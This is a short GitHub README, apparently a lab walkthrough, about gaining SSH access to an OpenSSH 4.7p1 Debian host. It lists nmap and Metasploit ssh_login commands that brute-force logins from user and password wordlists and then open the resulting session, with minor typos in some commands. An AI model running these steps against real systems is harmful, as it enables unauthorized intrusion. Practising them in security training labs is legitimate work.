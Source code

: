 # Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-
1.nmap -sV <target>
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/fab2c2c5-0bc1-49cb-8383-a87560d454a1)
2.msfcomsole
3.msf 6 > search ssh
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/6af833f7-31a4-441b-8a2d-6ade8f9f581a)
4.msf 6 > use auxiliary/scanner/ssh/ssh_login
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/66924c56-d235-40a1-8a68-344f719cb9b5)
5.create file user.txt and password.txt
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/9208b4f3-89b1-42b7-86a6-b7330a5bc8e9)
6.msf 6 > set RHOST <target>
7.msf 6 > set VERBOSE true
8.msf 6 > set user_file <path user.txt>
9.msf 6 > set pass_file <path password.txt>
10.msf 6 > set stop_on_success true
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/d41258f4-5d7a-4157-af30-c8fe096a9080)
11.msf 6 > run
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/458c8bb8-08e1-4a20-ac9a-4d0923aa06d4)
12.msf 6 > session -i 1 
![image](https://github.com/thanawut2903/Port-22-sshOpenSSH-4.7p1-Debian-8ubuntu1-protocol-2.0-/assets/159118913/655597c5-1e99-4fca-abc5-93d9d17b0092)


